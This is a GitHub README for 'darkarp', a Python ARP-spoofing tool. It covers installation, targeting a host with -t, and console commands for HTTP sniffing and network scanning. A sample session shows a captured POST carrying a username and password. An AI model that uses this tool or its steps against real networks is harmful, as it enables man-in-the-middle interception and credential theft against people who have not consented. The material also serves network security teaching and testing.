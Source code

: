 # About tool
Darkarp is a featured ARP (Address Resolution Protocol) spoofing tool written with Python programming language.
<hr />

# Installation 

clone the repository

```bash
git clone https://github.com/akulife/darkarp.git
```

enter directory called 'darkarp'

```bash
cd darkarp
```
install requirements

```bash
pip install -r requirements.txt
```
print usage 

```bash
python3 darkarp.py
```
<hr />

# Usage


![example code](https://github.com/akulife/darkarp/blob/whoami/img/darkarp.png)

As you can see from the arguments on the output above, for defining the target which is you want to attack, you need to use the -t flag, and gateway address is detecting by darkarp. In darkarp you have a custom command line, wich is you can run darkarp features. Run "*help*" command for listing all commands. 

```
darkarp> help

	system options
                    
	clear - clear the terminal                    
	exit - stop process and exit
                    
	console options
                    
	sniff wlan0 - enable HTTP sniffing on wlan0 interface                                        
	net_scan - scan local network IP addresses
	
darkarp> 
```
<hr>

# Darkarp features

## HTTP sniffing attack

HTTP sniffing attack is performing by giving "**sniff** <i>interface</i>" command.

```bash
darkarp> sniff wlan0
HTTP packet sniffing started... Waiting HTTP requests...
[+] client: 192.168.0.4 server: example.com/ method: GET
[+] client: 192.168.0.4 server: example.com/ method: GET
[+] client: 192.168.0.4 server: example.com/my-account/ method: POST
[/] POST:
Parameters:
b'username=admin&password=suppersecretpasswd'

```

## Network scanning

You can scann local network IP addresses simply by giving "**net_scann**" command.

```bash
darkarp> net_scan
#Available devices in the network:
	IP                  MAC
	192.168.0.1         00:1B:44:11:3A:B7
	192.168.0.4         52:4:t9:00:fA:C1
darkarp> 
```

## Stop process, and fix target's ARP cache

This will stop execution of darkarp and also will fix target's poisoned ARP cache

```
darkarp> exit
[w] Repairing target's ARP cache
[w] Repairing gateways's ARP cache
Terminated
[aku@thug darkarp]$ 
```

<hr>

# Version
version 1.5.0
